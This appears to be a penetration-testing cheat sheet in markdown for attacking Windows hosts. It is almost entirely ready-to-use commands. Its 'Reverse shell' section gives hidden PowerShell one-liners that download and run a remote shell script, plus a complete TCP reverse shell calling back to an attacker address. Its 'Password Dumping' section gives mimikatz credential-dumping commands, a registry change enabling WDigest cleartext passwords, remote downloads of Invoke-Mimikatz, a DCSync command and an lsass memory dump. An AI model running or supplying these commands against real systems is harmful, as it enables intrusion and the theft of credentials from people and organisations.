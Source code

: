 
## Reverse shell
```bash
//$source_ip/$smb_share/payloads_windows/shell_reverse_tcp_x86_shikata_ga_nai.exe
```
```bash
//$source_ip/$smb_share/payloads_windows/shell_reverse_tcp_x64_shikata_ga_nai.exe
```
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni -nop -i None -ex Bypass -C "iex ((New-Object System.Net.WebClient).DownloadString('http://$source_ip/tools_windows/nishang/Shells/Invoke-PowerShellTcp.ps1'))"
```
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"$source_ip\",$source_port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```

## Password Dumping
```bash
//$source_ip/$smb_share/tools_windows/bin/fgdump/fgdump.exe
```
```bash
//$source_ip/$smb_share/tools_windows/wce.exe
```
```bash
privilege::debug
sekurlsa::logonPasswords full
sekurlsa::wdigest
```
```bash
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```
```bash
//$source_ip/$smb_share/tools_windows/mimikatz.exe log version  "privilege::debug" "sekurlsa::logonpasswords full" "sekurlsa::wdigest" exit
```
```bash
//$source_ip/$smb_share/tools_windows/mimikatz64.exe log version  "privilege::debug" "sekurlsa::logonpasswords full" "sekurlsa::wdigest" exit
```
```bash
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```
Invoke-MassMimikatz
```bash
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
```
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:demodomain /user:sqladmin"'
```
```bash 
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```
```bash
//$source_ip/$smb_share/tools_windows/pstools/procdump.exe -accepteula -ma lsass.exe lsass.dmp
```